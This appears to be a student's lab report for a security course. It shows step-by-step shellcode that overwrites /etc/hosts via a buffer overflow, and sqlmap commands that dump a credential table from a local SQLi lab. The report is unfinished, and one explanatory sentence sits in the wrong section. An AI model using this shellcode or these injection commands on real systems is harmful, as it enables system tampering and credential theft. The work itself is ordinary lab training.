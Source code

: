 https://github.com/Bright-04/Lab1-INSE330380E_24_1_02FIE.git


# Lab Report #1: Vulnerability Exploitation and Database Attack
**Student:** Nguyen Nhat Quang  
**ID:** 22110065  
**Course:** INSE330380E_24_1_02FIE  

## Task 1: Software Buffer Overflow Attack

### Question 1: Stack Frame of the Main Function
Stackframe of the main function:
![image](img/stackframe.png)
### Step 1: Create the Vulnerable C Program
To begin, we will create a simple C program that contains a buffer overflow vulnerability.

```bash
# Create vulnerable.c
nano vulnerable.c
```

Copy and paste the following code into `vulnerable.c`:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

### Step 2: Compile the Vulnerable Program
Compile the program with security features disabled to facilitate the buffer overflow attack.

```bash
# Compile with security features disabled
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vulnerable vulnerable.c
```

### Step 3: Create the Shellcode Assembly
Next, we will write our shellcode in assembly language.

```bash
# Create shellcode.asm
nano shellcode.asm
```

Copy and paste the following assembly code into `shellcode.asm`:

```nasm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ; /etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ; permissions
    int 0x80            ; syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data ; jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ; length of the string
    pop edx
    int 0x80            ; syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ; syscall to close the file

    push 0x1
    pop eax
    int 0x80            ; syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

### Step 4: Compile the Shellcode
Now we will assemble and link our shellcode.

```bash
# Assemble the shellcode
nasm -f elf32 shellcode.asm -o shellcode.o

# Link the object file
ld -m elf_i386 shellcode.o -o shellcode
```

### Step 5: Extract Raw Shellcode Bytes
Finally, we will extract the raw bytes of our shellcode and save them to a file.

```bash
# Extract shellcode bytes and save to file
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s > shellcode.txt
```

---

# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
- Using sqlmap, I was able to get all the information about the available databeses:

```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs
```

![image](img/AvailableDBS.png)

- According to the output, the 2 available databases are: "information_schema" and "sqllab_users".
![image](img/ADBS2.png)


**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```

- We need to craft an input payload that will: Fill the buffer (buffer[16]) with some padding. Overwrite the return address with the address pointing to our shellcode.

```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```

![List of tables](img/DBSL.png)
![leaked credential](img/credential.png)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
    